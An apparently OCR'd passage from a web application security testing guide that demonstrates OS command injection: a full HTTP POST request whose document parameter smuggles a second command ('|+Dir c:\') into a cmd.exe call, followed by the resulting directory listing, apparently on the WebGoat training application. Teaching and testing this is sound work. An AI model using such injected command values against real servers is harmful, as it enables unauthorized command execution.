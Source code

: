     Doc=Doc1.pdf

In this post request, we notice how the application retrieves the public
documentation. Now we can test if it is possible to add an operating
system command to inject in the POST HTTP. Try the following:

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf+
    |+Dir c:\

If the application doesn't validate the request, we can obtain the
following result:

    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+
    |+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0

